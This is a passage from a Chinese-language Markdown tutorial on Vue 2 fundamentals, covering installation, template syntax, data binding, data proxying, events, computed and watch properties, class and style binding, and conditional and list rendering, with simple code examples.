






# Vue 基本使用

## 安装&引入

### 使用(安装)Vue 方式

单页面引入 CDN 或 使用脚手架
:::: code-group
::: code-group-item 开发环境

```html
<!-- 开发环境版本，包含了有帮助的命令行警告 -->
<script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>
```

:::
::: code-group-item 生产环境

```html
<!-- 生产环境版本，优化了尺寸和速度 -->
<script src="https://cdn.jsdelivr.net/npm/vue@2"></script>
```

:::
::: code-group-item ES Modules

```html
<script type="module">
  import Vue from "https://cdn.jsdelivr.net/npm/vue@2.7.14/dist/vue.esm.browser.js";
</script>
```

:::
::: code-group-item vue-cli 脚手架

```shell
# 最新稳定版
npm install vue
# OR
yarn global add @vue/cli
#安装之后查看版本
vue --version
```

:::
::::

### helloVue

下面写一个最简单的 vue 示例

```html
<div id="app">{{message}}</div>
<script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>
<script>
  //创建Vue实例,传一个参数值为对象(配置对象)
  new Vue({
    //el: document.getElementById('demo'), //可直接用document获取元素
    el: "#app", //el用于指定当前Vue实例为哪个容器服务，值为css选择器字符串。
    data: {
      //data中用于存储数据，数据供el所指定的容器去使用，值可以写成一个对象也可以是一个函数。
      message: "Hello Vue!",
    },
  });
</script>
```

::: tip 抛出疑问

1. F12 控制台中有 2 个提示信息,
   一个是提示安装 Devtools 插件,另一个是提示使用生产环境版本`<br>`
2. 一个 vue 实例只能接管一个容器,如下代码,只对第一个容器生效
3. 一个容器只能被第一个 Vue 实例管理,如下代码,只有第一个容器生效了
4. 容器和实例是一一对应的
   :::
   示例解析

```javascript
1.想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象;
  2.root容器里的代码依然符合htm1规范，只不过混入了一些特殊的Vue语法;
  3.root容器里的代码被称为[Vue模板] ;
  4.Vue实例和容器是一一对应的;
  5.真实开发中只有一个vue实例，并且会配合着组件一起使用;
  6.{{xxx}}中的xxx要写js表达式，且xxx可以自动读取到data中的所有属性;
  7.一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新;
  注意区分: js表达式 和 js代码(语句)
  表达式:一个表达式会产生一个值，可以放在任何一个需要值的地方:
    (1).a
    (2).a+b
    (3). demo(1)
    (4).x === y ? a':"b'
  js代码(语句)
    (1).if(){}
    (2). for(){}
```

## 模版语法

模版语法通俗易懂的话就是在 html 中可以写一些特殊的符合或标记在运行时将这些替换为值

### 插值语法（双大括号表达式）

用于解析标签体内容,标签体指的就是标签中间内容的部分

```vue
<div id="app">{{xxx}}</div>
<script>
new Vue({
  el: "#app",
  data: {
    xxx: "唱跳rap篮球",
  },
});
</script>
```

### 指令语法(v-???)

以 `v-` 开头后边跟一些相关的关键词,用于解析标签（包括：标签属性、标签体内容、绑定事件…）。

```vue
<div id="app">
    <a v-bind:href="url">Google</a>
    <!-- v-bind:href="xxx" 或 简写为 :href="xxx"，xxx同样要写js表达式，且可以直接读取到data中的所有属性。 -->
    <a :href="url">Google</a>
  </div>
<script>
new Vue({
  el: "#app",
  data: {
    url: "google.com",
  },
});
</script>
```

## 数据绑定

### 单向数据绑定

在上方的指令语法中，已经体现了单向数据绑定 `<br>`通俗易懂的解释就是 输入框的 value 只能从 data.val 读取到页面不能从页面修改后赋值到 data.val

```vue
<div id="app">
  <input type='text' v-bind:value="val">
</div>
<script>
new Vue({
  el: "#app",
  data: {
    val: "ikun",
  },
});
</script>
```

### 双向数据绑定

实现双向数据绑定需要使用到 `v-model` 指令

```js
<!-- 将上面的示例中v-bind替换为v-model即可 -->
 <input type='text' v-model:value="val">
```

::: tip 一些提示
语法：v-mode:value="xxx" 或简写为 v-model="xxx"`<br>`
双向数据绑定的好处在于，只要一个地方将变量的值修改其他使用该变量的地方随之改变

<p style='color:red;'>* v-model 只能应用在表单类元素（输入类元素）上</p>
:::

## vue实例

### el

```vue
<script>
var vm = new Vue({
   //el: '#demo',//第一种写法 
   data: { 
    name: "123",
     age: 18
    } 
  });
vm.$mount("#demo");//可以代替el绑定 //第二种写法 */
</script>
```

### data

```vue
<script>
  var vm = new Vue({
        el: '#demo',
        //data的第一种写法：对象式
        //data: {
        //    name: "123",
        //    age: 18
        //}

        //data的第二种写法：函数式
        //data: function () {
        //    console.log('@@@', this) //此处的this是Vue实例对象
        //    return {
        //        name: '1234',
        //        age: 18
        //    }
        //}
        //data的第二种写法：函数式,一般简写
        data() {
            console.log('@@@', this) //此处的this是Vue实例对象
            return {
                name: '1234',
                age: 18
            }
        }
    });
    // * 不能写箭头函数
</script>
```

## MVVM模型

::: tip 解释

1. M：模型(Model) ：data中的数据
2. V：视图(View) ：模板代码
3. VM：视图模型(ViewModel)：Vue实例
   :::


::: tip
1.data中所有的属性，最后都出现在了vm身上。
2.vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。
:::

## 数据代理

::: tip Object.defineProperty

```js
var person= {
    name: "张三",
    sex: "男"
}
//通过defineProperty给person对象添加一个age属性值为19
Object.defineProperty(person,"age",{
    value:19
})
console.log(person);
console.log(Object.keys(person));//提取对象的所有属性,变成一个数组.
```

查看打印结果发现，颜色不一样,age不可以被枚举,不参与遍历
可以开启属性枚举参与遍历

```js
Object.defineProperty(person,"age",{
    value:19,
    enumerable:true//控制属性是否可以枚举,默认值为false
})
```

可配置属性writable,控制属性是否可以被修改,默认值为false

```js
Object.defineProperty(person,"age",{
    value:19,
    enumerable:true,
    writable:true//控制属性是否可以被修改,默认值为false
})
```

可配置属性configurable,控制属性是否可以被删除,默认值为false

```js
Object.defineProperty(person,"age",{
    value:19,
    enumerable:true,
    writable:true,
    configurable:true//控制属性是否可以被删除,默认值为false
})
```

:::

#### get函数

可以实现动态调整值的作用,如果直接将number放入person中,即age:number,则不会根据number变化而变化.

```js
var number="19";
var person= {
    name: "张三",
    sex: "男"
}
Object.defineProperty(person,"age",{
    //当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
    get: function () {
        return number;
    }
})
```

::: warning 注意：
在使用Object.defineProperty() 定义对象属性的时候，如果设置了 set 或 get, 就不能设置 writable 和 value 中的任何一个，否则就会报错
:::

#### set函数

```js
set(value){
    console.log('有人修改了age属性，且值是',value)
    number = value
}
```

::: tip 什么是数据代理？
通过一个对象代理对另一个对象中属性的操作（读/写）

```js
var number="19";
    var obj= {
        x: "张三111"
    }
    var obj2= {
        y: "张三222"
    }
    Object.defineProperty(obj2,'x',{
        get(){
            return obj.x;
        },
        set(v){
            obj.x=v;
        }
    })
    console.log(obj);
    console.log(obj2);
```

:::
::: tip Vue中的数据代理

vm中的_data就是vue实例中的data对象— 包含数据劫持(看起来也像数据代理),

1.Vue中的数据代理：
通过vm对象来代理data对象中属性的操作（读/写）
2.Vue中数据代理的好处：
更加方便的操作data中的数据
3.基本原理：
通过Object.defineProperty()把data对象中所有属性添加到vm上。
为每一个添加到vm上的属性，都指定一个getter/setter。
在getter/setter内部去操作（读/写）data中对应的属性。
:::

## 事件处理

vue中的事件处理说的就是在模版给一些dom元素绑定一些事件例如：鼠标事件,键盘事件,表单事件等等

### 基本使用

### 事件绑定方式

```vue
<div id="app">
    <button v-on:click="show">点击</button>
    <!-- 这里也可以进行简写 -->
    <button @click="show">点击</button>
</div>
<script>
new Vue({
  el: "#app",
  methods: {
    show() {
      alert("hello");
    },
  },
});
</script>
```

::: tip 总结
1.使用v-on:xxx 或 @xxx 绑定事件，其中xxx是事件名;
2.事件的回调需要配置在methods对象中，最终会在vm上;
3.methods中配置的函数，不要用箭头函数！否则this就不是vm了;
4.methods中配置的函数，都是被Vue所管理的函数，this的指向是vm 或 组件实例对象;
5.@click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参;
:::

### 事件修饰符

之前阻止默认行为

```js
<a href="http://www.baidu.com" @click="show">百度</a>
show(e){
    e.preventDefault();
    alert("hello");
}
```

vue中提供了一些事件修饰符,用于简化代码

```js
<a href="http://www.baidu.com" @click.prevent="show">百度</a>
show(){
    alert("hello");
}
```

::: tip vue中的事件修饰符
1.prevent：阻止默认事件（常用）；
2.stop：阻止事件冒泡（常用）；

```html
<div class="demo1" @click="showInfo1">
  <button @click.stop="showInfo1">点我提示信息</button>
  <!-- 修饰符可以连续写 -->
  <a href="http://www.atguigu.com" @click.prevent.stop="showInfo">
  点我提示信息
  </a>
</div>
```

3.once：事件只触发一次（常用）；

```html
<!-- 事件只触发一次（常用） -->
<button @click.once="showInfo1">点我提示信息</button>
```

4.capture：使用事件的捕获模式；

```html
<!-- 使用事件的捕获模式 -->
<div class="box1" @click.capture="showMsg(1)">
    div1
    <div class="box2" @click="showMsg(2)">
    div2
        <div class="box3" @click="showMsg(3)">
            div3
        </div>
    </div>
</div>
```

5.self：只有event.target是当前操作的元素时才触发事件；

```html
<!-- 只有event.target是当前操作的元素时才触发事件； -->
<div class="demo1" @click.self="showInfo1">
    <button @click="showInfo1">点我提示信息</button>
</div>
```

6.passive：事件的默认行为立即执行，无需等待事件回调执行完毕；

```js
<!-- 事件的默认行为立即执行，无需等待事件回调执行完毕； -->
<ul @wheel.passive="demo" class="list">
        <li>1</li>
        <li>2</li>
        <li>3</li>
        <li>4</li>
</ul>

//Vue对象中函数
demo(){
      for (let i = 0; i < 10000; i++) {
          console.log('#')
      }//浪费时间了,导致滚动条并没有滑动,此时使用passive可以解决该问题.
      console.log("#");
}
```

:::

### 键盘事件

::: tip
1.Vue中常用的按键别名：
&emsp;回车 => enter /Enter, 以下都可以用大写
&emsp;删除 => delete (捕获“删除”和“退格”键)
&emsp;退出 => esc
&emsp;空格 => space
&emsp;换行 => tab (特殊，必须配合keydown去使用,不然会直接切走光标)
&emsp;上 => up
&emsp;下 => down
&emsp;左 => left
&emsp;右 => right
2.Vue未提供别名的按键，可以使用按键原始的key值去绑定 (通过event.key获得)，但注意要转为kebab-case（短横线命名）
3.系统修饰键（用法特殊）：ctrl、alt、shift、meta
(1).配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。
(2).配合keydown使用：正常触发事件。
4.也可以使用keyCode去指定具体的按键（不推荐）
5.Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名

```js
<!-- 准备好一个容器 -->
<div id="demo">
    <h1>Hello，{{name}}</h1>
    <!--<input type="text" placeholder="按下回车提示输入:" @keyup="showInfo">-->
    <!--<input type="text" placeholder="按下回车提示输入:" @keyup.ctrl="showInfo"><!–和回车判断有相同的作用–>-->
    <input type="text" placeholder="按下回车提示输入:" @keyup.ctrl.y="showInfo"><!--只有ctrl+y时才生效.-->
    <!--<input type="text" placeholder="按下回车提示输入:" @keyup.13="showInfo"><!–可以使用keyCode–>-->
    <input type="text" placeholder="按下回车提示输入:" @keyup.huiche="showInfo"><!--自定义-->
</div>
<script>
    //keyup
    //创建Vue实例,传一个参数,(对象,叫做配置对象)
    Vue.config.keyCodes.huiche=13;
    var vm = new Vue({
        el: '#demo',
        data: {
            name: "张三",
            age: 18
        },
        methods: {
            showInfo(event) {
                //if (event.keyCode !== 13) {
                //    //回车
                //    return;
                //}
                console.log(event.target.value);
                console.log(event.key,event.keyCode);
            },
        }
    });
</script>
```

:::

## 计算属性



::: tip 用插值语法和函数实现上面的表单效果

```vue
<div id="app">
    姓:<input type="text" v-model="firstName" />
    <hr />
    名:<input type="text" v-model="lastName" />
    <hr />
    <!--必须得用括号,不然不是返回值,这里和事件哪里有区别,-->
    全名:<span>{{firstName+"-"+lastName}}</span>
      <hr />
      全名:<span>{{firstName}}-{{lastName}}</span>
    <hr />
    全名:<span>{{fullName()}}</span>
    <hr />
  </div>
  <script>
    const vm = new Vue({
      el: "#app",
      data: {
        firstName: "张",
        lastName: "三",
      },
      methods: {
        fullName() {
          //return "全名";
          return this.firstName + this.lastName;
        },
      },
    });
  </script>
```

用计算属性实现-computed

```vue
<div id="app">
    姓:<input type="text" v-model="firstName">
    <hr/>
    名:<input type="text" v-model="lastName">
    <hr/>

    <!--必须得用括号,不然不是返回值,这里和事件哪里有区别,-->
    姓名:<span>{{fullName}}</span>
    <hr/>
    姓名:<span>{{fullName}}</span>
    <hr/>
    姓名:<span>{{fullName}}</span>
    <hr/>
</div>
<script>
    var vm=new Vue({
        el: '#app', 
        data: { 
            firstName: "张",
            lastName: "三"
        },
        computed: {
            //get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
            //get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
            fullName: {
                get() {//值调用1次
                    console.log('get被调用了')
                    // console.log(this) //此处的this是vm
                    return this.firstName + '-' + this.lastName
                }
            }
        }
    });
</script>
```

计算属性简写

- 当只考虑get,不考虑set时,才可以使用简写的形式(只读不改)

```js
computed: {
      //简写形式1,将对象改为函数
      //fullName: function () {
      //    console.log('get被调用了');
      //    return this.firstName + '-' + this.lastName;
      //}
      //再次简写,直接省略函数,将属性直接改为函数
      fullName(){
          console.log('get被调用了');
          return this.firstName + '-' + this.lastName;
      }
  }
```

当修改计算属性时也应把计算属性的依赖属性修改

```js
computed: {
    fullName: {
      get() {
        return this.firstName + "-" + this.lastName;
      },
      set(value) {
        const names = value.split("-");
        this.firstName = names[0];
        this.lastName = names[1];
      },
    },
```

计算属性:
&emsp;&emsp;1.定义:要用的属性不存在，要通过已有属性计算得来。
&emsp;&emsp;2.原理:底层借助了object.defineProperty方法提供的getter和setter。
&emsp;&emsp;3.get函数什么时候执行?
&emsp;&emsp;&emsp;&emsp;(1).初次读取时会执行一次。
&emsp;&emsp;&emsp;&emsp;(2).当依赖的数据发生改变时会被再次调用。
&emsp;&emsp;4.优势:与methods实现相比，内部有缓存机制 (复用)，效率更高，调试方便。
&emsp;&emsp;5.备注:
&emsp;&emsp;&emsp;&emsp;1.计算属性最终会出现在vm上，直接读取使用即可。
&emsp;&emsp;&emsp;&emsp;2.如果计算属性要被修改，那必须号set函数去响应修改，且set中要引起计算依赖的数据发生改变
:::

## 监听属性

vue中除了计算属性外还有一种属性叫做监视属性,监视属性的作用就是监视某个数据的变化,当数据发生变化时,执行一些特定的操作,例如:发送ajax请求,修改其他数据等等

### 基本使用

```vue
<div id="app">{{msg}}</div>
<script>
  const vm = new Vue({
    el: "#app",
    data: {
      msg: "hello vue",
    },
    methods: {},
    computed: {
      hideMsg(){
        return this.msg+"@ . @"
      }
    },
    watch: {
      msg: {
        //这里的handler是固定的,不要改
        // handler什么时候调用?当isHot发生改变时,
        //不仅可以发现被改了,还可以获取修改前和修改后的值
        handler(newValue, oldValue) {
          console.log(newValue, oldValue);
        },
        immediate: true, //默认为false,初始化时,让handler调用一下.
      },
      //也可以监视计算属性
      hideMsg:{
        handler(newValue, oldValue) {
          console.log(newValue, oldValue,"hideMsg");
        },
        immediate: true, 
      }
    },
  });
</script>
```

也可以通过$watch进行监听

```js
vm.$watch("msg",{
    handler(oldValue, newValue) {
        console.log("msg修改了");
        console.log(oldValue, newValue);
    },
    immediate: true//默认为false,初始化时,让handler调用一下.
})
```

简写

```js
watch:{
    message(){
        console.log('message发生了改变');
    }
}
```

深度监听对象的属性

```js
const vm = new Vue({
      el: "#app",
      data: {
        msg: "hello vue",
        user: {
          name: "张三",
          age: 18,
        },
      },
      watch: {
        //监听对象的某个属性
        "user.age": function (newValue, oldValue) {
          console.log(newValue, oldValue);
        },
        //监听对象的所有属性
        user: {
          handler(newValue, oldValue) {
            console.log(newValue, oldValue);
          },
          deep: true,
        },
      },
    });
```

::: tip 深度监听
(1).Vue中的watch默认不监测对象内部值的改变(一层)
(2).配置deep;true可以监测对象内部值改变 (多层)
备注:
(1).Vue自身可以监测对象内部值的改变，但vue提供的watch默认不可以!
(2).使用watch时根据数据的具体结构，决定是否采用深度监听。
(3).深度监听的原理：底层借助了递归遍历对象内部所有值的方式实现。
:::
::: tip watch异步操作

```js
data:{
    msg:"hello"
}
watch: {
    msg(newValue, oldValue){
        console.log(newValue, oldValue);
        setTimeout(() => {
          this.msg = "hello";
        }, 1000);
    },
  },
```

:::
::: tip computed和watch之间的区别
1.computed能完成的功能，watch都可以完成。
2.watch能完成的功能，computed不一定能完成，
例如: watch可以进行异步操作。
3.computed有缓存机制，效率更高。
4.computed需要return返回值，watch不需要。

> 两个重要的小原则:
> 1.所有被Vue管理的函数，最好写成普通函数，这样this的指向才是vm 或 组件实例对象。
> 2.所有不被Vue所管理的函数(定时器的回调函数、ajax的回调函数,promise回调函数等)，最好写成箭头函数这样this的指向才是vm 或 组件实例对象。
> :::

## Class与Style绑定

操作元素的 class 列表和内联样式是数据绑定的一个常见需求。因为它们都是 attribute，所以我们可以用 v-bind 处理它们：只需要通过表达式计算出字符串结果即可。不过，字符串拼接麻烦且易错。因此，在将 v-bind 用于 class 和 style 时，Vue.js 做了专门的增强。表达式结果的类型除了字符串之外，还可以是对象或数组。


### 绑定Class类名

```vue
<style>
    .basic {
      border: 1px solid #ccc;
      padding: 10px;
      width: 500px;
      height: 200px;
    }
    .bg {
      background-color: skyblue;
    }
    .bg2 {
      background-color: pink;
    }
    .font-big {
      font-size: 30px;
    }
    .font-small {
      font-size: 12px;
    }
    .font-red {
      color: red;
    }
    .font-green {
      color: green;
    }
  </style>
  <div id="app">
    <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定,class会叠加上去 -->
    <p class="basic" :class="bg">{{name}}</p>
    <button @click="changeBg">切换背景色</button>
    <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
    <p class="basic" :class="arr">{{name}}</p>
    <button @click="changeFont">切换字体大小</button>
    <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
    <p class="basic" :class="classObj">{{name}}</p>
    <button @click="changeColor">切换字体大小</button>
    <br /><br />
  </div>
  <script>
    const vm = new Vue({
      el: "#app",
      data: {
        name: "尼古拉斯赵四~",
        arr: ["bg", "font-big"],
        bg: "bg",
        classObj: {
          "font-green": true,
          "font-red": false,
        },
      },
      methods: {
        changeBg() {
          this.bg = this.bg === "bg" ? "bg2" : "bg";
        },
        changeFont() {
          let toggleClass =
            this.arr[1] == "font-big" ? "font-small" : "font-big";
          this.arr.splice(1, 1, toggleClass);
        },
        changeColor() {
          this.classObj["font-green"] = !this.classObj["font-green"];
          this.classObj["font-red"] = !this.classObj["font-red"];
        },
      },
    });
  </script>
```

### style绑定

v-bind:style 的对象语法十分直观——看着非常像 CSS，但其实是一个 JavaScript 对象。CSS property 名可以用驼峰式 (camelCase) 或短横线分隔 (kebab-case，记得用引号括起来) 来命名

```js
<div id="app">
    <div :style="{color: activeColor, fontSize: fontSize + 'px' }">
      {{name}}
    </div>
    <br /><br />
</div>
<script>
  const vm = new Vue({
    el: "#app",
    data: {
      name: "尼古拉斯赵四~",
      activeColor: "red",
      fontSize: 30,
    },
  });
</script>
```

直接绑定到一个样式对象通常更好，这会让模板更清晰

```vue
<div v-bind:style="styleObject"></div>
<script>
const vm = new Vue({
  el: "#app",
  data: {
    styleObject: {
      color: 'red',
      fontSize: '13px'
    }
  }
});
</script>
```

数组语法

```vue
<div v-bind:style="[baseStyles, overridingStyles]"></div>
<script>
const vm = new Vue({
  el: "#app",
  data: {
    baseStyles: {
      color: 'red',
      fontSize: '13px'
    },
    overridingStyles:{
      color: 'blue',
      fontSize: '15px'
    }
  }
});
</script>
```
::: tip 总结
:class="xxx"，xxx 可以是字符串、数组、对象  

:style="[a,b]"其中a、b是样式对象  

:style="{fontSize: xxx}"其中 xxx 是动态值  

字符串写法适用于：类名不确定，要动态获取   

数组写法适用于：要绑定多个样式，个数不确定，名字也不确定   

对象写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用 
:::
## 条件渲染

当涉及Vue.js中的条件渲染时，我们通常使用`v-if`、`v-else`、`v-else-if`和`v-show`这些指令来根据条件显示或隐藏DOM元素。

### 条件渲染

1. `v-if`指令：
   使用`v-if`指令可以根据表达式的真假来条件性地渲染元素。如果表达式为真，则渲染该元素；如果为假，则不渲染该元素。

```html
<template>
    <div>
      <p v-if="showMessage">This is a message.</p>
    </div>
  </template>
```

2. `v-else`指令：
   `v-else`指令用于和`v-if`指令搭配使用，在`v-if`表达式为假时，渲染`v-else`中的内容。

```html
<template>
  <div>
    <p v-if="showMessage">This is a message.</p>
    <p v-else>Message is hidden.</p>
  </div>
</template>
```

3. `v-else-if`指令：
   `v-else-if`指令用于在多个条件间切换，它必须紧跟在带有`v-if`或`v-else-if`的元素之后。

```html
<template>
  <div>
    <p v-if="type === 'info'">This is an info message.</p>
    <p v-else-if="type === 'warning'">This is a warning message.</p>
    <p v-else>This is a default message.</p>
  </div>
</template>
```

`v-show`指令：
v-show指令与v-if类似，用于根据条件显示或隐藏元素。但是，不同之处在于v-show只是使用CSS的display属性来隐藏或显示元素，而不是添加或删除DOM元素。

```html
<template>
  <div>
    <p v-show="showMessage">This is a message.</p>
  </div>
</template>
```

::: tip v-if vs v-show
v-if :  
写法 跟 if else 语法类似  
&emsp;  v-if="表达式"  
&emsp;  v-else-if="表达式"  
&emsp;  v-else  
 适用于：切换频率较低的场景，因为不展示的DOM元素直接被移除  
 注意：v-if可以和v-else-ifv-else一起使用，但要求结构不能被打断  
<hr>
v-show:  

写法：v-show="表达式"   

适用于：切换频率较高的场景  
特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉display: none  
备注：使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到  
template标签不影响结构，页面html中不会有此标签，但只能配合v-if，不能配合v-show  
:::

## 列表渲染

如何将data中的数组列表通过循环的方式显示在页面上？vue中提供了一个指令v-for,可以实现列表渲染
不用像之前在js方法函数遍历拼接字符串模版或创建dom对象然后再追加到页面中,只需要在页面中使用v-for指令即可实现列表渲染

### 基本使用

:::: code-group
::: code-group-item 数组(常用)

```vue
<div id="app">
  <h1>学生列表</h1>
  <table>
    <thead>
      <tr>
        <th>ID</th>
        <th>学生名字</th>
        <th>操作</th>
      </tr>
    </thead>
    <tbody>
      <!--
      循环data中的student数组,将数组中的每一项都渲染到页面中
      item代表数组中的每一项,index代表索引
      :key="index" 为了提高渲染效率,必须要加上key属性,且key的值必须是唯一的 
      -->
      <tr v-for="(item,index) in student" :key="index">
        <td>{{item.id}}</td>
        <td>{{item.name}}</td>
        <td>
          <button @click="del(index)">删除</button><button>修改</button>
        </td>
      </tr>
    </tbody>
  </table>
</div>
<script>
  const vm = new Vue({
    el: "#app",
    data: {
      student: [
        {
          id: 1,
          name: "张三",
        },
        {
          id: 2,
          name: "李四",
        },
        {
          id: 3,
          name: "王五",
        },
        {
